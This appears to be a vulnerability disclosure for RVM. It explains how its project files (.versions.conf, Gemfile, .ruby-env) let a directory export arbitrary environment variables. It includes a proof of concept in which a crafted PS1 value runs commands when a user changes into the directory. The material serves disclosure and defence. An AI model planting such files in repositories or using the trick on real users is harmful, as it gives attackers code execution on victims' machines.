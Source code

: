 The code that parses these files is available at
<https://github.com/rvm/rvm/blob/master/scripts/functions/rvmrc_project> (look
for the `__rvm_load_project_config` function). The code, as of a vulnerable
commit, is available at
<https://github.com/rvm/rvm/blob/b04c0158d/scripts/functions/rvmrc_project#L61>.

The parsing of these files allows for the exporting of arbitrary environment
variables into the current shell. For example, to set the environment variable
`FOO` to the value `"bar"`:

* `.versions.conf` should contain the line `"env-FOO=bar"`; OR

* `Gemfile` should contain the line `"#ruby-env-FOO=bar"` (Note that the
  parsing of `Gemfile` throws a notice in the user's shell); OR

* `.ruby-version`, `.rbfu-version` or `.rbenv-version` should be accompanied by
  a file named `.ruby-env` which should contain the line `"FOO=bar"`

In all of the above cases, it is critical that the file also specifies a
version of Ruby that satisfies RVM. This may be a version of Ruby that the user
has installed via RVM, or it may be the magic value `"system"` to specify that
the base system's Ruby should be used. This always satisfies RVM, even when
there is no Ruby installed on the base system.

An example of setting an environment variable using `.versions.conf`:

```text
rvm@773eb63af1cc:~$ mkdir test

rvm@773eb63af1cc:~$ cat > test/.versions.conf
ruby=system
env-FOO=bar
^D

rvm@773eb63af1cc:~$ echo $FOO


rvm@773eb63af1cc:~$ cd test

rvm@773eb63af1cc:~/test$ echo $FOO
bar
```

This behaviour can be used to achieve arbitrary command execution when a user
changes into a directory with malicious contents. For example, modern shells
will automatically interpret shell metacharacters within `PS1`. Other
techniques are left as an exercise for the reader.

### POC

```text
rvm@e6aeaf6d79ec:~$ mkdir poc

rvm@e6aeaf6d79ec:~$ cat > poc/.versions.conf
ruby=system
env-PS1=\n$(echo "Command execution as $(id) via PS1")\n\n$PS1
^D

rvm@e6aeaf6d79ec:~$ cd poc

Command execution as uid=1000(rvm) gid=1000(rvm) groups=1000(rvm) via PS1

rvm@e6aeaf6d79ec:~/poc$
```
